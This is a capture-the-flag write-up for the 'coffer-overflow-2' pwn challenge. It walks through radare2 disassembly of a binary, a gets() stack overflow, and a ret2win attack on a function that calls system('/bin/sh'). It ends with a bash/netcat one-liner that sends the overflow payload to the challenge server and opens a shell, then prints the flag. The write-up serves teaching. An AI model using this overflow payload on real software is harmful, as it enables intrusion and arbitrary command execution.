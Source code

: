 # coffer-overflow-2

## Description

NotDeGhost

You'll have to jump to a function now!?

## Solution

Once again, we're given a binary and source code.

The description suggests that we'll have to jump to a function, so let's list functions in the binary.

```asm
[0x00400590]> aaa
[x] Analyze all flags starting with sym. and entry0 (aa)
[x] Analyze function calls (aac)
[x] Analyze len bytes of instructions for references (aar)
[x] Check for objc references
[x] Check for vtables
[x] Type matching analysis for all functions (aaft)
[x] Propagate noreturn information
[x] Use -AA or aaaa to perform additional experimental analysis.
[0x00400590]> afl
0x00400590    1 42           entry0
0x004005d0    4 42   -> 37   sym.deregister_tm_clones
0x00400600    4 58   -> 55   sym.register_tm_clones
0x00400640    3 34   -> 29   sym.__do_global_dtors_aux
0x00400670    1 7            entry.init0
0x00400770    1 2            sym.__libc_csu_fini
0x00400774    1 9            sym._fini
0x00400700    4 101          sym.__libc_csu_init
0x004005c0    1 2            sym._dl_relocate_static_pie
0x00400677    1 111          main
0x00400560    1 6            sym.imp.setbuf
0x00400550    1 6            sym.imp.puts
0x00400580    1 6            sym.imp.gets
0x004006e6    1 24           sym.binFunction
0x00400570    1 6            sym.imp.system
0x00400528    3 23           sym._init
[0x00400590]>
```

The two functions of interest are `main` and `sym.binFunction`, the latter of which is a custom function.
If we disassemble `sym.binFunction`, we get the following:

```asm
[0x00400590]> pdf @ sym.binFunction
┌ 24: sym.binFunction ();
│           0x004006e6      55             push rbp
│           0x004006e7      4889e5         mov rbp, rsp
│           0x004006ea      488d3d120100.  lea rdi, str.bin_sh         ; 0x400803 ; "/bin/sh" ; const char *string
│           0x004006f1      b800000000     mov eax, 0
│           0x004006f6      e875feffff     call sym.imp.system         ; int system(const char *string)
│           0x004006fb      90             nop
│           0x004006fc      5d             pop rbp
└           0x004006fd      c3             ret
[0x00400590]>
```

The function simply calls `system` and passes `"/bin/sh"` as a parameter.
If we can call this function, we can spawn a shell and read the flag file.
To do so, we'll need the address `0x004006e6`, which marks the start of the function.

Next, let's disassemble `main` to find vulnerabilities we can use to call the above function.

```asm
[0x00400590]> pdf @ main
            ; DATA XREF from entry0 @ 0x4005ad
┌ 111: int main (int argc, char **argv, char **envp);
│           ; var char *s @ rbp-0x10
│           0x00400677      55             push rbp
│           0x00400678      4889e5         mov rbp, rsp
│           0x0040067b      4883ec10       sub rsp, 0x10
│           0x0040067f      488b05da0920.  mov rax, qword [obj.stdout] ; obj.stdout__GLIBC_2.2.5
│                                                                      ; [0x601060:8]=0
│           0x00400686      be00000000     mov esi, 0                  ; char *buf
│           0x0040068b      4889c7         mov rdi, rax                ; FILE *stream
│           0x0040068e      e8cdfeffff     call sym.imp.setbuf         ; void setbuf(FILE *stream, char *buf)
│           0x00400693      488b05d60920.  mov rax, qword [obj.stdin]  ; obj.stdin__GLIBC_2.2.5
│                                                                      ; [0x601070:8]=0
│           0x0040069a      be00000000     mov esi, 0                  ; char *buf
│           0x0040069f      4889c7         mov rdi, rax                ; FILE *stream
│           0x004006a2      e8b9feffff     call sym.imp.setbuf         ; void setbuf(FILE *stream, char *buf)
│           0x004006a7      488b05d20920.  mov rax, qword [obj.stderr] ; obj.stderr__GLIBC_2.2.5
│                                                                      ; [0x601080:8]=0
│           0x004006ae      be00000000     mov esi, 0                  ; char *buf
│           0x004006b3      4889c7         mov rdi, rax                ; FILE *stream
│           0x004006b6      e8a5feffff     call sym.imp.setbuf         ; void setbuf(FILE *stream, char *buf)
│           0x004006bb      488d3dc60000.  lea rdi, str.Welcome_to_coffer_overflow__where_our_coffers_are_overfilling_with_bytes ; 0x400788 ; "Welcome to coffer overflow, where our coffers are overfilling with bytes ;)" ; const char *s
│           0x004006c2      e889feffff     call sym.imp.puts           ; int puts(const char *s)
│           0x004006c7      488d3d0a0100.  lea rdi, str.What_do_you_want_to_fill_your_coffer_with ; 0x4007d8 ; "What do you want to fill your coffer with?" ; const char *s
│           0x004006ce      e87dfeffff     call sym.imp.puts           ; int puts(const char *s)
│           0x004006d3      488d45f0       lea rax, [s]
│           0x004006d7      4889c7         mov rdi, rax                ; char *s
│           0x004006da      e8a1feffff     call sym.imp.gets           ; char *gets(char *s)
│           0x004006df      b800000000     mov eax, 0
│           0x004006e4      c9             leave
└           0x004006e5      c3             ret
[0x00400590]> 
```

Again, we can see there is an unsafe call to `gets`.
We can use this to overwrite the return address of `main` and direct the flow of execution to our win function.

`gets` is storing user input in a variable at `rbp-0x10`, or 16 bytes on top of the base pointer.
As this is a 86x-64 program, the base pointer and return address are both 8 bytes long.
Therefore, the payload consists of 24 bytes of padding, followed by the address of `sym.binFunction` in little endian.

`cat` is used to redirect `stdin` to `stdout` and allow us to interact with the newly spawned shell to read the flag file.

## Exploit Script

```asm
#!/bin/bash

(echo -e AAAAAAAAAAAAAAAABBBBBBBB'\xe6\x06\x40\x00\x00\x00\x00\x00'; cat) | nc 2020.redpwnc.tf 31908
```

## Flag

```flag{ret_to_b1n_m0re_l1k3_r3t_t0_w1n}```

